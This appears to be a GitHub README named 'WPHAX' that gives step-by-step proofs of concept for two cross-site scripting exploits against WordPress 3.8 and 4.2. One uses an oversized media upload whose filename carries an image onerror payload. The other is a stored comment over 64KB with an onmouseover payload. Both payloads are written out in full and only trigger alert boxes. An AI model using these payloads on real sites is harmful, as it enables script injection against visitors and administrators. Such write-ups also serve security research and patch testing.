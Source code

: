 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.

* Upload a file which is more than **20MB** with `"file<img src=x onerror=alert("hacked")>.png"` name.

![Upload Media](https://i.imgur.com/Ad0wZIt.png)

![XSS](https://i.imgur.com/aRp2L62.png)

![Our user is author, so can upload media](https://i.imgur.com/z6pj5HV.png)

![XSS](https://i.imgur.com/aRp2L62.png)

## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment (with a string bigger than 64KB): `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AA... AA'></a>`

![Leave the comment](https://i.imgur.com/VVD3ZqO.png)

* View the comment on the page
![View as admin](https://i.imgur.com/wwVBiiG.png)

* Done
![View as admin](https://i.imgur.com/0HTXTUk.png)
